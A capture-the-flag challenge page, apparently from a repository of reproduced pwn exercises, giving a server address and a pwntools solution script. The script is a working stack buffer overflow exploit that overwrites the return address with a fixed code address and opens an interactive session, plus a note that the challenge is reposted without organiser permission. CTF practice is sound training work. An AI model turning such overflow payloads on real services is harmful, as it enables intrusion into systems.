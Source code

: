 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20000

#### Solution
```python
#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

Io.sendline("1024")
Io.sendline("A")
Io.sendline("B" * 256 + "C" * 24 + p64(0x400806))
Io.sendline("0")

Io.interactive()
```



#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
